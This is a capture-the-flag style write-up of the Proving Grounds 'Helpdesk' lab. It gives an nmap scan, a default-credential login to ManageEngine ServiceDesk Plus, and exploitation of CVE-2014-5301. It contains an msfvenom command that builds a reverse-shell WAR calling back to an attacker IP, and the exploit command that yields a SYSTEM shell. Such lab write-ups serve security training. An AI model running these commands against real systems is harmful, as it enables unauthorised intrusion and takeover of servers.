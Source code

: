 ```yaml
---
description: PG Practice Helpdesk writeup
---
```


# Helpdesk

```
sudo nmap 192.168.214.43 -p- -sS -sV                                                                                                                                                                                             130 ⨯

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 microsoft-ds (workgroup: WORKGROUP)
3389/tcp open  ms-wbt-server Microsoft Terminal Service
8080/tcp open  http          Apache Tomcat/Coyote JSP engine 1.1
Service Info: Host: HELPDESK; OS: Windows; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_server_2008:r2
```

Port 8080 root page lands us on a login page for ManageEngine ServiceDesk plus.

![http://192.168.214.43:8080/](<../../../.gitbook/assets/image (1009) (1).png>)

This is running version 7.6.0 as per the information available on screen. Looking up default credentials on Google shows we can try `administrator:admininistrator`. This proves successful and are able to login.

![](<../../../.gitbook/assets/image (1010).png>)

Research exploits for this particular version we come across **CVE-2014-5301**.

**Description:**

Directory traversal vulnerability in ServiceDesk Plus MSP v5 to v9.0 v9030; AssetExplorer v4 to v6.1; SupportCenter v5 to v7.9; IT360 v8 to v10.4.

Looking for available exploits we come to[: https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py](https://github.com/PeterSufliarsky/exploits/blob/master/CVE-2014-5301.py)

As per the exploit instructions contained in the script generate a WAR file with `msfvenom`:

```
msfvenom -p java/shell_reverse_tcp LHOST=192.168.49.214 LPORT=445 -f war > /home/kali/Desktop/shell.war
```

Then execute with the following syntax:

```
# Script usage: ./CVE-2014-5301.py HOST PORT USERNAME PASSWORD WARFILE
 sudo python3 exploit.py 192.168.214.43 8080 administrator administrator shell.war
```

A shell should be received on a `netcat` listener running as SYSTEM.

![](<../../../.gitbook/assets/image (1011).png>)

{% hint style="info" %}
If you get a java heap error on the shell revert the machine and try again.
{% endhint %}
